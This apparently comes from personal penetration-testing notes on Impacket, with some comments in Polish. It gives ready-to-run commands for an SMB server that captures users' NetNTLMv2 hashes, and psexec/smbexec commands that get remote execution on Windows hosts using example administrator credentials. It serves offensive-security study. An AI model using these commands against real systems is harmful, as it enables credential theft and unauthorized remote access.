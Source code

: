 Impacket is a collection of Python classes for working with network protocols
https://www.secureauth.com/labs/open-source-tools/impacket/

# smbserver
A Python implementation of an SMB server. Allows to quickly set up shares and user accounts.
We also get a copy of the users NetNTLMv2 hash
```bash
$ impacket-smbserver
$ impacket-smbserver hax $(pwd)
$ impacket-smbserver hax $(pwd) -smb2support 
# hax - nazwa share 
# $(pwd) folder z plikami/ może być inny 
# -smb2support - support smb2
$ impacket-smbserver smbfolder $(pwd) -smb2support -user vk9guest -password vk9pass

$ impacket-smbclient -L 192.168.10.10 --no-pass
cmd> net viev \\192.168.10.10
```

# psexec
```bash
impacket-psexec domain/username:password@hostIP
impacket-psexec ignite/administrator:Ignite987@192.168.1.105

impacket-smbexec domain/username:password@hostIP
impacket-smbexec ignite/administrator:Ignite987@192.168.1.105
```